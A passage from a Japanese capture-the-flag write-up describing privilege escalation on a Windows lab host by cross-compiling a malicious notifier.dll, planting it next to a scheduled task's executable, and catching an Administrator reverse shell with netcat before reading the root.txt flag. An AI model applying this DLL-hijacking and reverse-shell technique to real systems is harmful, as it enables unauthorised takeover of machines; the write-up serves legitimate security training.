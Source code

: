 ビルドはLinux上でも以下のようなコマンドで行えます。

```
x86_64-w64-mingw32-gcc -shared -o notifier.dll notifier.cpp -l ws2_32
```

ビルドした`notifier.dll`を`MonitorIISTask.exe`と同じディレクトリ配下に設置することで、タスクスケジューラーによって次に`MonitorIISTask.exe`が`Administrator`ユーザとして実行されるときに、配置した`notifier.dll`の`Send`関数が実行されます。

kali上でリバースシェルを待ち受け、しばらく待つと`Administrator`ユーザとしてリバースシェルを張ることができます。

`C:\Users\Administrator`配下で`root.txt`を探すと`C:\Users\Administrator\Desktop`に存在することが分かります。

```
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
10.0.128.11: inverse host lookup failed: Unknown host
connect to [192.168.100.10] from (UNKNOWN) [10.0.128.11] 59221
Microsoft Windows [Version 10.0.20348.3807]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
ec2amaz-kjo15rd\administrator

C:\Windows\system32>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>dir /s root.txt
dir /s root.txt
 Volume in drive C has no label.
 Volume Serial Number is 1CE9-5F0A

 Directory of C:\Users\Administrator\Desktop

08/29/2025  05:36 AM                40 root.txt
               1 File(s)             40 bytes

     Total Files Listed:
               1 File(s)             40 bytes
               0 Dir(s)  12,866,961,408 bytes free

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1CE9-5F0A

 Directory of C:\Users\Administrator\Desktop

07/17/2025  12:35 PM    <DIR>          .
07/16/2025  12:45 AM    <DIR>          ..
07/16/2025  12:53 AM        28,572,832 dotnet-runtime-8.0.18-win-x64.exe
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
08/29/2025  06:56 AM             2,308 Microsoft Edge.lnk
08/29/2025  05:36 AM                40 root.txt
               5 File(s)     28,576,261 bytes
               2 Dir(s)  12,867,588,096 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
flag{JnTzhA3mFctY7aRKSGJKqT2MJFLXprNJ}
```